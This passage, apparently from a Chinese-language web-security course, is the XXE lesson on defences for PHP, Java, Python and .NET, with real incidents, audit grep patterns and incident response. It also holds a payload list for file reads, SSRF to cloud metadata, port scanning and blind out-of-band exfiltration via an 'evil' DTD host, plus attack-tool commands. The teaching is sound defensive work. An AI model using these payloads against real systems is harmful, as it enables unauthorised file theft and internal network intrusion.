2. 用 OOB 把 /etc/hostname 外带出来
3. 改用报错型 XXE，对比结果
4. 构造恶意 SVG，测试 SVG 头像上传

---

# 🗓️ 第 4 课 · 防御 + 真实案例 + 进阶
## 4.1 XXE 防御的本质


> 🎯 **核心原则**：  
**如果不需要外部实体功能，就完全禁用 DTD**（最简单也最安全）。
>

---

## 4.2 PHP 防御
### 方法 1：libxml 内部函数
```php
// ❌ 危险
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NOENT);    // NOENT 启用实体替换

// ✅ 安全：禁用实体加载
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NONET | LIBXML_DTDLOAD);
// 或者直接不传 NOENT
```

### 方法 2：libxml_disable_entity_loader（PHP < 8）
```php
// PHP 8 之前
libxml_disable_entity_loader(true);
$doc = loadXML($xml);

// PHP 8+ 自动禁用外部实体加载，无需此函数
```

### 方法 3：SimpleXML（默认安全）
```php
// SimpleXML 默认不解析外部实体（PHP 5.4+）
$xml = simplexml_load_string($xml);
```

---

## 4.3 Java 防御
### DocumentBuilderFactory
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

// ❌ 默认有 XXE
// ✅ 禁用 DTD（最严格）
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);

// ✅ 或：禁用外部实体 / 外部 DTD
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

// ✅ 启用 XInclude 安全模式
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);

DocumentBuilder db = dbf.newDocumentBuilder();
Document doc = db.parse(new InputSource(new StringReader(xml)));
```

### SAXParser
```java
SAXParserFactory spf = SAXParserFactory.newInstance();
spf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
spf.setFeature("http://xml.org/sax/features/external-general-entities", false);
spf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
spf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

### XMLInputFactory (StAX)
```java
XMLInputFactory xif = XMLInputFactory.newFactory();
xif.setProperty(XMLInputFactory.SUPPORT_DTD, false);
xif.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false);
XMLStreamReader xsr = xif.createXMLStreamReader(new StringReader(xml));
```

### Spring Web Service
Spring-WS 默认安全，但旧版本需手动配置：

```java
@Bean
public WebServiceMessageFactory messageFactory() {
    SaajSoapMessageFactory factory = new SaajSoapMessageFactory();
    factory.setTransformSchemaLocations(false);
    return factory;
}
```

---

## 4.4 Python 防御
### ElementTree（默认安全）
```python
import xml.etree.ElementTree as ET
tree = ET.fromstring(xml)
# 默认不解析外部实体
```

### lxml（默认不安全，需手动禁用）
```python
from lxml import etree

# ❌ 默认会解析
parser = etree.XMLParser()

# ✅ 禁用
parser = etree.XMLParser(
    resolve_entities=False,
    no_network=True,           # 不允许网络请求
    load_dtd=False,            # 不加载外部 DTD
)
tree = etree.fromstring(xml, parser)

# 或用 defusedxml
import defusedxml.ElementTree as ET
tree = ET.fromstring(xml)    # 自动防御 XXE / Billion Laughs
```

### 推荐：defusedxml
```bash
pip install defusedxml
```

```python
# 替换所有标准库的 XML 解析器
import defusedxml.ElementTree
import defusedxml.minidom
import defusedxml.sax
# 全部免疫 XXE / 实体扩展攻击
```

---

## 4.5 C# / .NET 防御
```csharp
// ❌ 默认 XmlDocument 不安全
XmlDocument doc = new XmlDocument();
doc.LoadXml(xml);

// ✅ .NET 4.5.2+
XmlDocument doc = new XmlDocument();
doc.XmlResolver = null;          // 禁用解析器
doc.LoadXml(xml);

// ✅ 或使用 XmlReaderSettings
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;     // 禁用 DTD
settings.XmlResolver = null;
XmlReader reader = XmlReader.Create(new StringReader(xml), settings);
```

---

## 4.6 各语言防御一览
| 语言 | 推荐方案 |
| --- | --- |
| PHP | `libxml_disable_entity_loader(true)` + 不传 `LIBXML_NOENT` |
| Java | `setFeature("disallow-doctype-decl", true)` |
| Python | `defusedxml` 库 |
| .NET | `XmlResolver = null` + `DtdProcessing.Prohibit` |
| Ruby | `REXML` 默认安全 |
| Go | `encoding/xml` 默认安全 |


---

## 4.7 真实案例赏析
### 案例 1：Facebook OpenID XXE (2014)
+ Facebook 集成 OpenID 时解析 XML
+ 漏洞：XXE 读取内部文件
+ 影响：内部配置泄露
+ 赏金：高

### 案例 2：Google Docs XXE (2014)
+ 漏洞：上传 docx 文件，解析时 XXE
+ 利用：读取服务器内部文件
+ 赏金：$5000

### 案例 3：LinkedIn XXE (2014)
+ 漏洞：导入联系人的 XML 接口
+ 利用：读取云元数据 / 内网探测

### 案例 4：Vaadin (2021)
+ 漏洞：CVE-2021-31434，Vaadin 框架默认 XML 解析
+ 影响：所有基于 Vaadin 的 Java Web 应用

### 案例 5：Apache OFBiz (2020)
+ 漏洞：CVE-2020-9496，XXE 任意文件读取
+ 影响：电商系统 OFBiz 大量部署

### 案例 6：Steam XXE (2014)
+ 漏洞：Steam 社区 SVG 上传
+ 利用：上传恶意 SVG → 读取 Valve 服务器文件

### 案例 7：苹果 XXE (2015)
+ 漏洞：iTunes Store 后台 SOAP 接口
+ 影响：用户购买记录可能泄露

---

## 4.8 XXE 漏洞挖掘清单


### 必测入口清单
```plain
□ Content-Type: application/xml 接口
□ Content-Type: text/xml 接口
□ SOAP 服务（WSDL）
□ SAML SSO
□ SVG 头像上传
□ Office 文档上传
□ RSS / Atom 解析
□ Webhook 接收 XML
□ OpenID / OAuth XML 模式
□ AJax 异步 XML 通信
```

### 必测 Payload 清单
```xml
<!-- 1. 经典读文件 -->
<!DOCTYPE foo [<!ENTITY x SYSTEM "file:///etc/passwd">]>

<!-- 2. SSRF -->
<!DOCTYPE foo [<!ENTITY x SYSTEM "http://169.254.169.254/">]>

<!-- 3. 端口扫描 -->
<!DOCTYPE foo [<!ENTITY x SYSTEM "http://192.168.1.5:6379/">]>

<!-- 4. PHP 源码 -->
<!DOCTYPE foo [<!ENTITY x SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>

<!-- 5. Blind OOB -->
<!DOCTYPE foo [<!ENTITY % r SYSTEM "http://evil/evil.dtd">%r;]>

<!-- 6. Billion Laughs -->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">]>

<!-- 7. Java netdoc 绕过 -->
<!DOCTYPE foo [<!ENTITY x SYSTEM "netdoc:///etc/passwd">]>
```

---

## 4.9 XXE 自动化工具
### XXExploiter
```bash
git clone https://github.com/ttff/XXExploiter.git
cd XXExploiter
python3 xxexploiter.py --file /etc/passwd --out evil.dtd --type oob-http
```

生成文件读取 / OOB / 报错 三种 Payload。

### XXEinjector
```bash
git clone https://github.com/enjoiz/XXEinjector.git
cd XXEinjector
ruby XXEinjector.rb --host=attacker --httpport=8080 --file=request.txt --oob=http
```

批量替换 Burp 抓的请求，自动 OOB 接收数据。

### burp 插件：Collaborator
Burp 自带，用于 Blind XXE 检测：

```plain
1. Burp → Project options → Collaborator
2. 生成随机域名（如 xxx.oastify.com）
3. 构造 Payload 引用此域名
4. 看 Burp 是否有 DNS/HTTP 命中
```

---

## 4.10 检测 XXE 漏洞的代码审计
### Java 关键字搜索
```bash
# 危险解析器
grep -r "DocumentBuilderFactory" .
grep -r "SAXParserFactory" .
grep -r "XMLInputFactory" .
grep -r "Unmarshaller" .          # JAXB
grep -r "SAXReader" .             # dom4j
grep -r "XPath" .
grep -r "TransformerFactory" .
```

### PHP 关键字
```bash
grep -rn "simplexml_load_string" .
grep -rn "DOMDocument" .
grep -rn "LIBXML_NOENT" .         # 危险标志
grep -rn "XMLReader" .
```

### Python 关键字
```bash
grep -rn "lxml" .
grep -rn "xml.dom.minidom" .
grep -rn "xml.sax" .
```

---

## 4.11 应急响应：发现 XXE 攻击后
### 日志特征
```plain
- POST 请求 body 包含 <!DOCTYPE
- POST body 包含 <!ENTITY
- POST body 包含 SYSTEM "file:"
- 服务端发起到外部域名的请求（OOB）
- 大量错误日志（Billion Laughs / 报错型）
```

### 处置
```plain
1. 临时 WAF 规则拦截含 DOCTYPE 的 XML 请求
2. 修复解析器（禁用 DTD / 外部实体）
3. 升级 libxml2 等依赖
4. 检查是否已被读取敏感文件（看攻击者 IP 是否拿到 /etc/passwd 等）
5. 修改被泄露的密钥 / 证书
```

---

## 4.12 第 4 课小结
| 知识点 | 一句话 |
| --- | --- |
| 防御核心 | 禁用 DTD 或外部实体 |
| PHP | `libxml_disable_entity_loader` / 不传 NOENT |
| Java | `disallow-doctype-decl` feature |
| Python | `defusedxml` 库 |
| .NET | `XmlResolver=null` + `DtdProcessing.Prohibit` |
| 真实案例 | Facebook / Google Docs / LinkedIn / Steam |
| 检测工具 | XXExploiter / XXEinjector / Burp Collaborator |
| 日志特征 | POST body 含 `<!DOCTYPE` / `<!ENTITY` |
| 应急 | 临时 WAF + 修复 + 换密钥 |


---

# 📝 课程总回顾（必背 30 条）
### 基础
1. XML = 数据交换标记语言
2. DTD = 文档类型定义
3. 内部实体：DTD 内"变量"
4. 外部实体：`SYSTEM "url"` 引用外部资源（XXE 核心）
5. 参数实体：`%name;` 仅 DTD 内用（Blind XXE 核心）

### XXE 原理
6. XXE = 解析器未禁外部实体 → 攻击者代读取资源
7. 危害 = 读文件 + SSRF + DoS + OOB
8. Java 几乎所有解析器默认有 XXE 风险
9. PHP libxml2 < 2.9 默认有漏洞
10. 与 SSRF 区别：XXE 限定于 XML 解析场景

### 经典利用
11. 读文件：`<!ENTITY x SYSTEM "file:///etc/passwd">`
12. SSRF：`<!ENTITY x SYSTEM "http://169.254.169.254/">`
13. 端口扫描：响应时间 + 错误信息
14. PHP wrapper：`php://filter` 读源码
15. Content-Type 改造：JSON 改 XML 也可能触发

### Blind XXE
16. 参数实体 `%name;` 是 Blind XXE 核心
17. OOB = 远程 DTD + FTP/HTTP 外带
18. evil.dtd：`%file; → %eval; → %exfiltrate;`
19. 报错型：错误信息含文件内容
20. FTP 比 HTTP 适合大文件

### 高级利用
21. SVG 头像上传 → 触发 XXE
22. Office 文档（docx/xlsx）解压改 XML 触发
23. SAML 在验签前解析就中招
24. Java `netdoc://` 绕过 file 黑名单
25. XXE + gopher 可打 Redis（详见 SSRF 课件）

### 防御
26. 禁用 DTD 是最简方案
27. PHP：`libxml_disable_entity_loader(true)`
28. Java：`setFeature("disallow-doctype-decl", true)`
29. Python：用 `defusedxml`
30. .NET：`XmlResolver=null`

---

# 🎯 课后作业
### 基础题
1. 写一份完整的 XML（含 DTD + 内部实体 + 外部实体），用浏览器或在线工具验证
2. bwapp XXE Reflected 关卡，读 /etc/passwd
3. vulhub PHP XXE，curl 读 /etc/hostname

### 进阶题
4. 自建 Blind XXE 靶场，用 OOB 把 /etc/passwd 外带出来
5. 构造恶意 SVG，自建头像上传靶场复现 SVG XXE
6. 用 XXExploiter 或 XXEinjector 自动化测试一个靶场

### 实战题
7. **代码审计**：找一个 Java 开源项目，grep `DocumentBuilderFactory`，检查是否有 XXE 防御
8. **完整攻击链**：vulhub PHP XXE → 探测内网 → 攻击内网 Redis
9. **写防御**：在自建 PHP / Java / Python 三种语言靶场分别实现 XXE 防御

---


